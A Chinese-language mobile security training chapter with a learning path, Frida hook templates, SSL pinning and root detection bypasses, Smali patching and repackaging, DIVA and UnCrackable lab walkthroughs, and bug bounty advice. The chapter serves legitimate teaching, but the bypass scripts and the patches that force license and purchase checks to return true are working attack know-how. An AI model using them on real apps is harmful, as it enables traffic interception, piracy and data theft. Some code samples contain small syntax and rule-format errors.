

# 第18章 移动安全 — 练习方法

移动安全是一门实践驱动的技术领域。仅靠阅读理论无法真正掌握攻防技能——你需要亲手反编译应用、编写Hook脚本、绕过防御机制、挖掘真实漏洞。本章提供一套从零到独立评估的完整练习体系，涵盖学习路径规划、靶场环境、实验室搭建、漏洞挖掘方法论和持续进阶资源。

## 18.13 学习路径规划

### 18.13.1 入门阶段（第1-2个月）

**目标**：建立移动安全基础认知，掌握静态分析和基础抓包能力，能独立完成简单的APK逆向分析。

**里程碑检验标准**：

| 检验项 | 达标标准 |
|--------|----------|
| APK反编译 | 能用jadx反编译任意APK并读懂Java层业务逻辑 |
| 网络抓包 | 能用mitmproxy拦截HTTP/HTTPS流量并识别认证机制 |
| 权限分析 | 能阅读AndroidManifest.xml识别危险权限并评估合理性 |
| 组件识别 | 能识别四大组件及其导出状态，判断潜在攻击面 |

**第1-2周：Android/iOS安全架构基础**

阅读顺序（按优先级排列）：

1. **Android安全架构**：先读Android开发者文档中的"Security"章节，重点理解以下机制的原理而非仅仅是概念
   - 应用沙箱：每个应用运行在独立的Linux UID下，文件系统隔离。理解`/data/data/<包名>/`目录结构
   - 权限模型：安装时权限 vs 运行时权限（Android 6.0+），权限组与权限映射关系
   - 代码签名：APK签名方案v1（JAR签名）、v2/v3（APK签名块），理解为什么篡改APK后需要重签名
   - SELinux：Enforcing模式下应用进程的MAC策略，理解`untrusted_app`域的限制

2. **iOS安全架构**：阅读Apple Platform Security Guide中的iOS部分
   - 代码签名与Provisioning Profile：开发者证书→App ID→设备UDID的三角关系
   - 沙箱机制：App Sandbox容器结构（Documents/Library/tmp/SystemData）
   - Keychain安全：kSecAttrAccessible属性的不同访问级别
   - Data Protection：Complete Protection / Protected Until First Unlock / No Protection的区别

3. **OWASP Mobile Top 10**：逐项理解每类风险，不要停留在分类名称层面。每类风险至少找一个真实的CVE或公开漏洞报告作为案例

**第3-4周：测试环境搭建与基础工具**

按以下顺序搭建环境（详细步骤见18.15节）：

```text
环境搭建清单（按依赖顺序）：
1. Java JDK 17 ───────────────────→ apktool/jadx依赖
2. Android SDK / ADB ─────────────→ 设备交互基础
3. 模拟器(Genymotion/AVD) ────────→ 测试设备
4. jadx + apktool ─────────────────→ 静态分析工具链
5. mitmproxy ─────────────────────→ 网络层分析
6. Frida + objection ─────────────→ 动态分析工具链（进阶阶段使用）
```

**第5-8周：基础工具实战**

工具使用不是记命令，而是理解每个工具在安全测试工作流中的定位：

```text
安全测试工具链工作流：

APK文件
  │
  ├─[apktool d]──→ Smali代码 + 资源文件 → 深入理解字节码/修改应用
  ├─[jadx]────────→ Java源码（近似）    → 快速阅读业务逻辑
  ├─[aapt2 dump]──→ Manifest/资源摘要   → 快速查看权限和组件
  │
  ├─[安装到模拟器]─→ 运行时行为
  │    ├─[mitmproxy]──→ 网络流量分析
  │    ├─[adb logcat]─→ 日志监控
  │    └─[adb shell]──→ 文件系统探查
  │
  └─[MobSF]──────→ 自动化扫描报告
```

**练习任务**：

**练习1：APK反编译与代码审计**

目标：找到应用中硬编码的敏感信息和暴露的组件

```bash
# 步骤1：获取APK（以DIVA靶场为例）
wget https://github.com/payatu/diva-android/releases/download/v1.0/diva-beta.apk

# 步骤2：使用jadx反编译，输出为Gradle项目结构
jadx -d diva-decompiled diva-beta.apk

# 步骤3：搜索硬编码敏感信息
grep -rn "password\|secret\|api_key\|token\|hardcoded" diva-decompiled/sources/

# 步骤4：分析AndroidManifest.xml中的导出组件
grep -E "exported=\"true\"" diva-decompiled/resources/AndroidManifest.xml

# 步骤5：检查网络配置（network_security_config）
find diva-decompiled -name "network_security_config.xml" -exec cat {} \;

# 预期发现：
# - DIVA Challenge 01: Log中有硬编码密码
# - DIVA Challenge 02: SharedPrefs中存储明文凭据
# - DIVA Challenge 03: 数据库中存储未加密的敏感数据
```

**练习2：网络流量拦截与分析**

目标：理解应用的API通信协议和认证机制

```bash
# 步骤1：启动mitmproxy（选择web界面便于分析）
mitmweb --listen-port 8080

# 步骤2：配置模拟器代理
# 设置 → WLAN → 修改网络 → 代理手动 → 10.0.2.2:8080（AVD默认网关）
# 或使用adb命令：
adb shell settings put global http_proxy 10.0.2.2:8080

# 步骤3：安装mitmproxy CA证书
# 访问 mitm.it 下载并安装证书
# Android 7+需要将证书安装为系统证书（需root）：
adb push ~/.mitmproxy/mitmproxy-ca-cert.cer /sdcard/
# 或使用Magisk模块 "MagiskTrustUserCerts" 将用户证书提升为系统证书

# 步骤4：操作应用并观察流量
# 关注以下模式：
# - 认证请求中的token传递方式（Header/Body/Cookie）
# - API端点的命名规律（可用于枚举未公开接口）
# - 请求/响应中的敏感数据（是否明文传输）
# - 固定的IV或ECB模式（加密实现缺陷）

# 步骤5：使用mitmproxy的拦截功能修改请求
# 在mitmproxy中按 'i' 添加拦截规则
# 例如拦截所有POST请求：~m POST
# 修改请求参数观察服务端响应变化
```

**练习3：权限与组件安全分析**

目标：评估应用权限合理性并识别可利用的导出组件

```python
#!/usr/bin/env python3
"""analyze_apk_permissions.py - APK权限与组件分析脚本"""

import xml.etree.ElementTree as ET
import sys

def analyze_manifest(manifest_path):
    """分析AndroidManifest.xml中的安全风险"""
    tree = ET.parse(manifest_path)
    root = tree.getroot()

    ns = {'android': 'http://schemas.android.com/apk/res/android'}

    # 危险权限列表（Android 6.0+ 运行时权限）
    dangerous_permissions = [
        'CAMERA', 'READ_CONTACTS', 'WRITE_CONTACTS',
        'ACCESS_FINE_LOCATION', 'ACCESS_COARSE_LOCATION',
        'RECORD_AUDIO', 'READ_PHONE_STATE', 'CALL_PHONE',
        'READ_CALENDAR', 'WRITE_CALENDAR',
        'READ_SMS', 'SEND_SMS', 'RECEIVE_SMS',
        'READ_EXTERNAL_STORAGE', 'WRITE_EXTERNAL_STORAGE',
    ]

    print("=== 权限分析 ===")
    for perm in root.findall('.//uses-permission'):
        name = perm.get('{http://schemas.android.com/apk/res/android}name', '')
        short_name = name.split('.')[-1]
        if short_name in dangerous_permissions:
            print(f"  [!] 危险权限: {short_name}")
        else:
            print(f"  [i] 普通权限: {short_name}")

    print("\n=== 导出组件分析 ===")
    for tag in ['activity', 'service', 'receiver', 'provider']:
        for comp in root.findall(f'.//{tag}'):
            name = comp.get('{http://schemas.android.com/apk/res/android}name', '')
            exported = comp.get('{http://schemas.android.com/apk/res/android}exported', '')
            permission = comp.get('{http://schemas.android.com/apk/res/android}permission', '')

            if exported == 'true':
                risk = "高" if not permission else "中"
                print(f"  [!] 导出{tag}: {name} (风险:{risk}, permission:{permission or '无'})")

    # 检查allowBackup
    app = root.find('.//application')
    if app is not None:
        backup = app.get('{http://schemas.android.com/apk/res/android}allowBackup', 'true')
        if backup == 'true':
            print("\n  [!] allowBackup=true - 应用数据可被adb backup导出")
        debuggable = app.get('{http://schemas.android.com/apk/res/android}debuggable', 'false')
        if debuggable == 'true':
            print("  [!] debuggable=true - 应用可被调试器附加")

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print("Usage: python3 analyze_apk_permissions.py <AndroidManifest.xml路径>")
        sys.exit(1)
    analyze_manifest(sys.argv[1])
```

### 18.13.2 进阶阶段（第3-4个月）

**目标**：掌握动态分析与Hook技术，能绕过常见防御机制，能在靶场环境中发现OWASP Mobile Top 10漏洞。

**里程碑检验标准**：

| 检验项 | 达标标准 |
|--------|----------|
| Frida Hook | 能编写脚本Hook Java层和Native层函数，修改参数和返回值 |
| 反混淆 | 能识别ProGuard/R8混淆并还原关键业务逻辑 |
| 绕过技术 | 能独立绕过SSL Pinning、Root检测、调试检测中的至少两种 |
| APK修改 | 能修改Smali代码、重打包签名、验证修改效果 |
| OWASP实践 | 能在靶场中复现至少6类OWASP Mobile Top 10漏洞 |

**第9-12周：Frida动态Hook**

Frida是移动安全测试的核心工具。掌握Frida不是记住API，而是理解Hook的原理——在运行时修改方法的执行流程。

**Frida核心概念图**：

```text
Frida架构：

┌─────────────────────────────────────────────────────┐
│  你的电脑 (frida-tools)                              │
│  ┌──────────┐    ┌──────────┐    ┌──────────┐       │
│  │ frida CLI│    │ frida-trace│   │ Python API│      │
│  └────┬─────┘    └─────┬────┘    └─────┬────┘       │
│       │                │               │             │
│       └────────────────┼───────────────┘             │
│                        │  (USB/TCP)                   │
├────────────────────────┼─────────────────────────────┤
│  目标设备               │                              │
│  ┌─────────────────────┴───────────────────┐         │
│  │ frida-server (以root运行)                │         │
│  └─────────────────────┬───────────────────┘         │
│                        │ 注入                          │
│  ┌─────────────────────┴───────────────────┐         │
│  │ 目标应用进程                               │         │
│  │  ┌──────────────┐  ┌──────────────┐      │         │
│  │  │ Frida Agent  │  │ Java VM      │      │         │
│  │  │ (JS Runtime) │──│ (ART Runtime)│      │         │
│  │  └──────────────┘  └──────────────┘      │         │
│  │  ┌──────────────┐                        │         │
│  │  │ Native Layer │                        │         │
│  │  │ (libc/so)    │                        │         │
│  │  └──────────────┘                        │         │
│  └───────────────────────────────────────────┘        │
└──────────────────────────────────────────────────────┘
```

**Frida脚本模板库**：

```javascript
// ===== 模板1：Java方法Hook基础 =====
// 用途：拦截Java方法调用，查看参数和返回值

Java.perform(function() {
    // 定位目标类
    var TargetClass = Java.use("com.example.app.LoginActivity");

    // Hook目标方法
    TargetClass.verifyPassword.overload('java.lang.String').implementation = function(password) {
        console.log("[+] verifyPassword called with: " + password);

        // 调用原始方法
        var result = this.verifyPassword(password);
        console.log("[+] verifyPassword returned: " + result);

        // 强制返回true（绕过验证）
        // return true;

        return result;
    };
});
```

```javascript
// ===== 模板2：追踪加密操作 =====
// 用途：监控应用中的加密/解密操作，获取明文数据

Java.perform(function() {
    // Hook javax.crypto.Cipher
    var Cipher = Java.use("javax.crypto.Cipher");

    Cipher.doFinal.overload('[B').implementation = function(input) {
        // 获取当前Cipher的模式（加密/解密）
        var mode = this.getAlgorithm();
        console.log("[Cipher] Algorithm: " + mode);

        // 打印输入数据
        var inputStr = Java.use("java.lang.String").$new(input);
        console.log("[Cipher] Input: " + inputStr);

        // 调用原始方法
        var result = this.doFinal(input);

        // 打印输出数据
        var resultStr = Java.use("java.lang.String").$new(result);
        console.log("[Cipher] Output: " + resultStr);

        // 获取密钥信息
        try {
            var key = this.getIV();
            if (key !== null) {
                console.log("[Cipher] IV: " + bytesToHex(key));
            }
        } catch(e) {}

        return result;
    };

    function bytesToHex(bytes) {
        var hex = [];
        for (var i = 0; i < bytes.length; i++) {
            hex.push(('0' + (bytes[i] & 0xFF).toString(16)).slice(-2));
        }
        return hex.join('');
    }
});
```

```javascript
// ===== 模板3：SSL Pinning绕过 =====
// 用途：绕过证书固定，允许mitmproxy抓取HTTPS流量

Java.perform(function() {
    // 绕过方式1：信任所有证书（TrustManager）
    var TrustManagerImpl = Java.use("com.android.org.conscrypt.TrustManagerImpl");
    TrustManagerImpl.verifyChain.implementation = function(untrustedChain, trustAnchorChain,
            host, clientAuth, ocspData, tlsSctData) {
        console.log("[+] SSL Pinning bypassed for: " + host);
        return untrustedChain;
    };

    // 绕过方式2：OkHttp CertificatePinner
    try {
        var CertificatePinner = Java.use("okhttp3.CertificatePinner");
        CertificatePinner.check.overload('java.lang.String', 'java.util.List').implementation = function(hostname, peerCertificates) {
            console.log("[+] OkHttp CertificatePinner bypassed for: " + hostname);
            // 不调用原始方法，直接返回
        };
    } catch(e) {
        console.log("[-] OkHttp not found, skipping");
    }

    // 绕过方式3：WebView SSL错误处理
    var WebViewClient = Java.use("android.webkit.WebViewClient");
    WebViewClient.onReceivedSslError.implementation = function(view, handler, error) {
        console.log("[+] WebView SSL error bypassed");
        handler.proceed();  // 忽略SSL错误
    };
});
```

```javascript
// ===== 模板4：Root/模拟器检测绕过 =====
// 用途：绕过应用的安全环境检测

Java.perform(function() {
    // 绕过文件路径检测（检查su/busybox等文件）
    var File = Java.use("java.io.File");
    File.exists.implementation = function() {
        var path = this.getAbsolutePath();
        var rootPaths = ["/system/bin/su", "/system/xbin/su", "/sbin/su",
                        "/data/local/xbin/su", "/data/local/bin/su",
                        "/system/sd/xbin/su", "/system/bin/failsafe/su",
                        "/data/local/su", "/su/bin/su", "/system/app/Superuser.apk"];
        for (var i = 0; i < rootPaths.length; i++) {
            if (path === rootPaths[i]) {
                console.log("[+] Root file check bypassed: " + path);
                return false;
            }
        }
        return this.exists();
    };

    // 绕过Build属性检测
    var Build = Java.use("android.os.Build");
    Build.FINGERPRINT.value = "google/raven/raven:13/TP1A.220624.021/8819414:user/release-keys";
    Build.TAGS.value = "release-keys";

    // 绕过模拟器检测
    Build.HARDWARE.value = "raven";
    Build.MODEL.value = "Pixel 6";
    Build.MANUFACTURER.value = "Google";
});
```

```javascript
// ===== 模板5：SharedPreferences监控 =====
// 用途：监控应用的本地数据存储操作

Java.perform(function() {
    var SharedPreferencesImpl = Java.use("android.app.SharedPreferencesImpl");

    SharedPreferencesImpl.getString.implementation = function(key, defValue) {
        var result = this.getString(key, defValue);
        console.log("[SharedPrefs] getString('" + key + "') = '" + result + "'");
        return result;
    };

    SharedPreferencesImpl.putString.implementation = function(key, value) {
        console.log("[SharedPrefs] putString('" + key + "', '" + value + "')");
        return this.putString(key, value);
    });

    SharedPreferencesImpl.getInt.implementation = function(key, defValue) {
        var result = this.getInt(key, defValue);
        console.log("[SharedPrefs] getInt('" + key + "') = " + result);
        return result;
    };
});
```

**使用方式**：

```bash
# 将脚本保存为文件并执行
frida -U -f com.example.app -l hook_template.js --no-pause

# 参数说明：
# -U         通过USB连接（包括模拟器转发）
# -f         以spawn模式启动（在应用启动前注入）
# -l         加载脚本文件
# --no-pause  注入后不暂停，直接执行

# 如果应用已经在运行，用attach模式：
frida -U com.example.app -l hook_template.js

# 使用frida-trace自动追踪方法调用：
frida-trace -U -f com.example.app -j '*!*encrypt*/i'
# -j 指定Java方法匹配模式，/i 表示忽略大小写
```

**第13-16周：Smali代码修改与重打包**

Smali是Dalvik字节码的可读表示。掌握Smali修改让你能在不依赖Frida的情况下永久修改应用行为。

```bash
# ===== 完整的APK修改流程 =====

# 步骤1：反编译
apktool d target.apk -o target-smali/

# 步骤2：分析Smali代码结构
# Smali文件路径对应Java包名：
# com.example.app.MainActivity → target-smali/smali/com/example/app/MainActivity.smali

# 步骤3：查找目标代码
# 例如找到一个返回boolean的验证方法
grep -rn "checkLicense\|isPremium\|verifyPurchase" target-smali/smali/

# 步骤4：修改Smali代码
# 将方法返回值从 false 改为 true
# 找到 .method public checkLicense()Z
# 将内容改为：
#   const/4 v0, 0x1    # true
#   return v0

# 步骤5：重新打包
apktool b target-smali/ -o target-modified.apk

# 步骤6：生成签名密钥（首次需要）
keytool -genkey -v -keystore my-release-key.jks \
    -keyalg RSA -keysize 2048 -validity 10000 \
    -alias my-alias -storepass password123

# 步骤7：签名
# 方案A：apksigner（推荐，支持v2/v3签名）
apksigner sign --ks my-release-key.jks --ks-pass pass:password123 target-modified.apk

# 方案B：jarsigner（兼容v1签名）
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 \
    -keystore my-release-key.jks target-modified.apk my-alias

# 步骤8：对齐优化（可选但推荐）
zipalign -v 4 target-modified.apk target-aligned.apk

# 步骤9：安装并验证
adb install -r target-aligned.apk
```

**Smali常用修改技巧速查表**：

| 目的 | 原始Smali | 修改为 |
|------|-----------|--------|
| 返回true | `const/4 v0, 0x0` + `return v0` | `const/4 v0, 0x1` + `return v0` |
| 返回false | `const/4 v0, 0x1` + `return v0` | `const/4 v0, 0x0` + `return v0` |
| 跳过检查（NOP） | `if-eqz v0, :cond_x` | 注释掉或替换为nop |
| 修改字符串常量 | `const-string v0, "old"` | `const-string v0, "new"` |
| 修改整数常量 | `const/4 v0, 0x5` | `const/4 v0, 0x63`（99） |

### 18.13.3 高级阶段（第5-6个月）

**目标**：能独立完成完整移动应用安全评估，具备漏洞挖掘和报告撰写能力。

**里程碑检验标准**：

| 检验项 | 达标标准 |
|--------|----------|
| 完整评估 | 能独立对一个中等复杂度应用完成OWASP MASVS全项测试 |
| Native逆向 | 能使用IDA/Ghidra分析ARM SO文件中的关键安全逻辑 |
| 自动化测试 | 能用MobSF + 自定义Frida脚本构建半自动化测试流程 |
| 报告撰写 | 能撰写符合行业标准的安全测试报告 |
| 漏洞挖掘 | 能在真实应用中发现至少一个中危以上漏洞 |

**第17-20周：自动化安全测试与高级逆向**

```bash
# ===== MobSF自动化扫描 =====

# Docker方式启动MobSF
docker run -it -p 8000:8000 opensecurity/mobile-security-framework-mobsf

# 通过API上传APK进行扫描
curl -F "file=@target.apk" http://localhost:8000/api/v1/upload \
    -H "Authorization: <your_api_key>"
# 返回hash值后，获取报告：
curl http://localhost:8000/api/v1/report_json?hash=<hash> \
    -H "Authorization: <your_api_key>"

# ===== Semgrep自定义规则 =====
# 用于源码级安全审计（需要源码或反编译后的代码）
```

```yaml
# semgrep-mobile-rules.yaml - 移动安全自定义Semgrep规则
rules:
  - id: android-logging-sensitive-data
    patterns:
      - pattern: |
          Log.d($TAG, $SENSITIVE)
      - pattern-not: |
          Log.d($TAG, "...")
    message: "检测到可能在日志中输出敏感数据"
    severity: WARNING
    languages: [java]

  - android-allowbackup-enabled:
    patterns:
      - pattern: |
          android:allowBackup="true"
    message: "allowBackup=true可能导致应用数据被导出"
    severity: WARNING
    languages: [xml]

  - android-exported-component:
    patterns:
      - pattern: |
          android:exported="true"
      - pattern-not: |
          android:permission="..."
    message: "导出的组件缺少权限保护"
    severity: WARNING
    languages: [xml]
```

```bash
# 运行Semgrep扫描
semgrep --config semgrep-mobile-rules.yaml target-decompiled/

# ===== Ghidra Native逆向基础 =====
# 对于使用Native代码（C/C++）保护关键逻辑的应用

# 1. 提取SO文件
unzip target.apk "lib/*" -d extracted_libs/

# 2. 查看SO文件架构
file extracted_libs/lib/arm64-v8a/libnative.so
# 输出示例：ELF 64-bit LSB shared object, ARM aarch64

# 3. 使用Ghidra逆向分析
# 重点分析JNI_OnLoad（动态注册方法）和导出的JNI函数
# 关注字符串引用、加密算法、反调试逻辑

# 4. 使用Frida Hook Native函数
```

```javascript
// Frida Hook Native函数示例
// Hook SO库中的函数

// 方式1：通过模块名和偏移量Hook
var libnative = Module.findBaseAddress("libnative.so");
console.log("[+] libnative.so base: " + libnative);

// 方式2：通过导出符号Hook
var checkLicense = Module.findExportByName("libnative.so", "Java_com_example_app_Native_checkLicense");
if (checkLicense) {
    Interceptor.attach(checkLicense, {
        onEnter: function(args) {
            // args[0] = JNIEnv*, args[1] = jobject, args[2+]= 方法参数
            console.log("[+] Native checkLicense called");
        },
        onLeave: function(retval) {
            console.log("[+] Native checkLicense returned: " + retval);
            retval.replace(0x1);  // 强制返回true
        }
    });
}

// 方式3：枚举模块中的所有导出函数
var exports = Module.enumerateExports("libnative.so");
exports.forEach(function(exp) {
    if (exp.type === 'function') {
        console.log("[Export] " + exp.name + " @ " + exp.address);
    }
});
```

### 18.13.4 专家阶段（第7个月以后）

**目标**：能发现0day漏洞，能分析复杂反逆向保护，能为安全社区贡献工具和知识。

**发展方向**：

1. **复杂保护分析**：分析商业级加固方案（梆梆安全、360加固保、爱加密）的保护机制，理解DEX抽取、SO加密、VMP保护的原理和绕过思路
2. **框架级漏洞**：关注Android/iOS框架层漏洞（Binder IPC、System Server、内核驱动），这些漏洞影响所有设备
3. **漏洞利用开发**：从漏洞发现到PoC到完整利用链的开发能力
4. **安全研究发表**：在Black Hat、DEF CON、POC、看雪安全峰会上分享研究成果
5. **工具开发**：开发自动化安全测试工具，为开源社区贡献代码

## 18.14 靶场与练习平台

### 18.14.1 专用移动安全靶场

**DIVA（Damn Insecure and Vulnerable App）**

DIVA是入门Android安全的最佳起点，包含13个有意识设计的安全漏洞，每个漏洞对应一个独立的Challenge，适合逐个攻破。

```bash
# 下载并安装
wget -O diva-beta.apk \
    https://github.com/payatu/diva-android/releases/download/v1.0/diva-beta.apk
adb install diva-beta.apk

# DIVA Challenge详解与练习方法：
#
# Challenge 01 - Insecure Logging（不安全日志）
#   漏洞：敏感信息通过Log.d()输出到logcat
#   练习：运行应用 → 输入密码 → adb logcat | grep -i "diva"
#   学习点：Android日志全局可读，生产环境应移除调试日志
#
# Challenge 02 - Insecure Data Storage（不安全数据存储-Part 1）
#   漏洞：用户凭据以明文存储在SharedPreferences中
#   练习：输入凭据后检查 /data/data/jakhar.aseem.diva/shared_prefs/
#   学习点：SharedPreferences是XML明文存储，不应用于敏感数据
#
# Challenge 03 - Insecure Data Storage Part 2
#   漏洞：凭据存储在SQLite数据库中且未加密
#   练习：adb shell → sqlite3 /data/data/jakhar.aseem.diva/databases/*.db
#   学习点：本地数据库应使用SQLCipher加密或Android Keystore保护密钥
#
# Challenge 04 - Insecure Data Storage Part 3
#   漏洞：凭据存储在World-Readable文件中
#   练习：adb shell cat /data/data/jakhar.aseem.diva/files/*.txt
#   学习点：MODE_WORLD_READABLE已在Android N中废弃
#
# Challenge 05 - Input Validation Issues（输入验证缺陷）
#   漏洞：未对输入进行验证，可导致SQL注入
#   练习：在输入框中输入 ' OR 1=1 -- 测试注入
#   学习点：即使在移动端，SQL注入仍然可能存在
#
# Challenge 06 - Access Control Issues（访问控制缺陷）
#   漏洞：导出的Activity和ContentProvider缺少权限保护
#   练习：adb shell am start -n jakhar.aseem.diva/.APICredsActivity
#   学习点：导出的组件应设置自定义权限或exported=false
#
# Challenge 07 - Hardcoding Issues（硬编码问题）
#   漏洞：API密钥硬编码在代码中
#   练习：jadx反编译 → 字符串搜索 "key" "secret" "api"
#   学习点：密钥应存储在服务端或使用Android Keystore
#
# Challenge 08 - 支付系统漏洞
#   漏洞：客户端验证支付结果，可伪造
#   练习：Hook支付验证方法，修改返回值
#   学习点：支付验证必须在服务端完成
```

**InsecureBankv2**

比DIVA更复杂的靶场，模拟真实银行应用，包含完整的客户端-服务端架构。

```bash
# 项目地址
# https://github.com/dineshshetty/Android-InsecureBankv2

# 需要同时启动服务端和客户端：
# 服务端（Python Flask）：
python InsecureBankv2/backend.py

# 客户端APK：
adb install InsecureBankv2.apk

# 练习重点：
# 1. 拦截并篡改转账请求（金额、收款人）
# 2. 绕过登录认证（SQL注入或凭据获取）
# 3. 分析加解密逻辑并获取密钥
# 4. 利用导出的ContentProvider获取数据
# 5. 修改本地存储的账户余额
```

**OWASP UnCrackable Apps**

OWASP官方提供的逆向工程挑战，分为三个难度等级。这是学习逆向技术的最佳练习材料。

**UnCrackable Level 1 — 基础逆向**

```text
目标：找到隐藏在Native代码中的秘密字符串

解题思路：
1. 使用jadx反编译，发现应用检查是否在Root环境
2. 搜索字符串引用，找到一个加密的字符串和解密逻辑
3. 分析解密算法——它是一个简单的XOR操作，密钥来自Native层
4. 两种解法：
   方案A（Frida）：Hook解密函数，直接读取返回值
   方案B（静态分析）：找到libfoo.so中的解密密钥，手动计算

Frida解题脚本：
```

```javascript
// UnCrackable Level 1 解题脚本
Java.perform(function() {
    var MainActivity = Java.use("sg.vantagepoint.uncrackable1.MainActivity");

    // Hook检测Root的方法，绕过检查
    var RootDetection = Java.use("sg.vantagepoint.a.c");
    RootDetection.a.implementation = function() {
        console.log("[+] Root detection bypassed");
        return false;
    };

    // Hook调试检测
    var DebugDetection = Java.use("sg.vantagepoint.a.b");
    DebugDetection.a.implementation = function() {
        console.log("[+] Debug detection bypassed");
        return false;
    };

    // Hook解密函数，获取秘密字符串
    var Decryption = Java.use("sg.vantagepoint.a.a");
    Decryption.a.implementation = function(input) {
        var result = this.a(input);
        var decoded = Java.use("java.lang.String").$new(result);
        console.log("[+] Decrypted secret: " + decoded);
        return result;
    };
});
```

**UnCrackable Level 2 — 中级逆向**

```text
目标：绕过更复杂的Root/调试检测机制，找到Native层隐藏的秘密

新增挑战：
- 应用使用了双进程检测（fork后监控调试器）
- Native层有反调试逻辑（ptrace检测）
- 秘密字符串通过Native代码动态计算

解题关键步骤：
1. Spawn应用并立即注入Frida，赶在反调试逻辑启动前
2. Hook fork() 和 ptrace() 系统调用
3. 分析libfoo.so中的JNI_OnLoad函数，找到动态注册的方法
4. 使用IDA/Ghidra分析反编译的Native代码
```

**UnCrackable Level 3 — 高级逆向**

```text
目标：分析多层Native保护，提取加密算法和密钥

新增挑战：
- DEX代码被抽取（运行时动态加载）
- Native代码经过OLLVM混淆
- 使用自定义的加密算法

解题思路：
1. 使用Frida的DEX加载Hook拦截动态加载的DEX
2. 分析混淆后的Native代码，关注常量和字符串引用
3. 使用Frida的Memory.readByteArray读取运行时内存中的密钥
```

### 18.14.2 综合安全平台

**HackTheBox**

HTB提供了专门的Mobile类别挑战，难度从入门到高级。

```text
推荐挑战路线（按难度递增）：

入门：
- "Baby Android RE" - 基础APK逆向，提取硬编码flag
- "Android Interceptor" - 绕过基本的客户端验证

中级：
- "Bank" - 分析银行应用的认证绕过
- "Jabber" - XMPP协议的安全分析

高级：
- "Obfuscated" - 分析混淆后的Android应用
- "Blacksmith" - Native代码逆向与漏洞利用

搜索移动端挑战：在HackTheBox Challenges页面筛选Mobile分类
```

**TryHackMe**

TryHackMe提供结构化的移动安全学习房间，适合按步骤学习。

```text
推荐学习顺序：

1. "Android Hacking 101"
   内容：Android架构基础、ADB使用、APK结构分析
   时长：约2-3小时
   适合：完全零基础

2. "Mobile Device Security"
   内容：移动设备安全策略、MDM、BYOD风险
   时长：约2小时
   适合：有基础安全知识

3. "APK Analysis"
   内容：APK反编译、Smali分析、动态分析
   时长：约3-4小时
   适合：完成101课程后
```

**其他值得关注的练习平台**：

| 平台 | 特点 | 适合阶段 | 链接 |
|------|------|----------|------|
| PicoCTF | 入门友好，含移动端题目 | 入门 | picoctf.org |
| CryptoHack | 密码学基础，移动加密分析的基础 | 入门-中级 | cryptohack.org |
| RootMe | 多平台安全挑战，含移动分类 | 中级 | root-me.org |
| OverTheWire | Linux基础，Native逆向的前置知识 | 入门 | overthewire.org |

### 18.14.3 漏洞赏金平台

当你在靶场中积累了足够经验，可以在真实应用中寻找漏洞。这不仅是练习，更是将技能变现的途径。

**入门路径**：

```text
漏洞赏金入门路线图：

第1步：选择平台
├── HackerOne（最大平台，目标最多）
├── Bugcrowd（企业目标为主）
└── 国内：补天、漏洞盒子、CNVD

第2步：选择目标
├── 推荐类型：金融科技、社交应用、SaaS移动应用
├── 避免：政府网站、基础设施（除非明确允许）
└── 关键：只测试有公开漏洞赏金计划(VDP)的目标

第3步：从低危漏洞开始
├── 信息泄露（日志中的敏感数据、错误消息泄露内部路径）
├── 配置错误（debuggable=true、allowBackup=true）
├── 不安全的数据存储（明文密码、未加密数据库）
└── 缺少安全头（HSTS、CSP、X-Frame-Options）

第4步：进阶到高危漏洞
├── 认证绕过（Token伪造、会话管理缺陷）
├── 授权缺陷（IDOR、越权访问）
├── 注入漏洞（SQL注入、XSS在WebView中）
└── 业务逻辑漏洞（支付绕过、竞态条件）
```

**漏洞报告撰写技巧**：

```text
一份好的漏洞报告包含：

1. 标题：简洁描述漏洞和影响
   差："发现一个漏洞"
   好："Android App v2.1 用户Token可通过API暴力枚举导致账户接管"

2. 描述：用非技术人员也能理解的语言解释漏洞
   - 这是什么类型的漏洞？
   - 影响范围有多大？
   - 攻击者能利用它做什么？

3. 复现步骤：足够详细，评审员能100%复现
   - 每一步都要有截图或日志
   - 包含所有必要的工具和版本信息
   - 标注测试的设备型号和OS版本

4. 影响分析：量化风险
   - 影响多少用户？
   - 最坏情况下会造成什么损失？
   - 是否有合规影响（GDPR、PCI-DSS）？

5. 修复建议：具体可行的技术方案
   差："加强安全"
   好："将SharedPreferences替换为EncryptedSharedPreferences，使用AES-256-GCM加密"
```

## 18.15 实验室搭建指南

### 18.15.1 Android安全测试实验室

**硬件需求**：

| 配置项 | 最低配置 | 推荐配置 |
|--------|----------|----------|
| CPU | 4核（支持VT-x/AMD-V） | 8核以上 |
| 内存 | 16GB RAM | 32GB RAM |
| 存储 | 256GB SSD | 512GB NVMe SSD |
| 网络 | 稳定连接 | 双网卡（管理+测试） |
| 设备 | 模拟器即可 | + 一台已Root的物理设备 |

**为什么推荐物理设备**：模拟器无法完全模拟真实硬件行为（指纹传感器、NFC、蓝牙、TEE）。某些应用会在模拟器中拒绝运行或降低功能。入门阶段用模拟器足够，进阶阶段建议购买一台二手Pixel设备（刷机支持最好）。

**软件环境搭建**：

```bash
# ===== 完整的环境搭建脚本 =====
#!/bin/bash
# setup-android-lab.sh - Android安全测试实验室一键搭建
# 测试系统：Ubuntu 22.04/24.04 LTS

set -e

echo "=========================================="
echo "  Android Security Testing Lab Setup"
echo "=========================================="

# 检查非root运行
if [[ "$EUID" -eq 0 ]]; then
    echo "[-] 请不要使用root运行此脚本"
    exit 1
fi

# 系统依赖
echo "[1/8] 安装系统依赖..."
sudo apt update && sudo apt install -y \
    openjdk-17-jdk \
    python3 python3-pip python3-venv \
    adb \
    wget curl git unzip \
    docker.io docker-compose

# 将当前用户加入docker组
sudo usermod -aG docker $USER

# apktool（APK反编译/重打包）
echo "[2/8] 安装 apktool..."
if ! command -v apktool &>/dev/null; then
    sudo apt install -y apktool || {
        # 如果仓库版本太旧，从GitHub安装最新版
        wget -q https://raw.githubusercontent.com/iBotPeaches/Apktool/master/scripts/linux/apktool
        wget -q https://bitbucket.org/iBotPeaches/apktool/downloads/apktool_2.9.3.jar
        chmod +x apktool
        sudo mv apktool /usr/local/bin/
        sudo mv apktool_2.9.3.jar /usr/local/bin/apktool.jar
    }
fi
echo "    apktool $(apktool --version 2>/dev/null || echo 'installed')"

# jadx（APK反编译为Java源码）
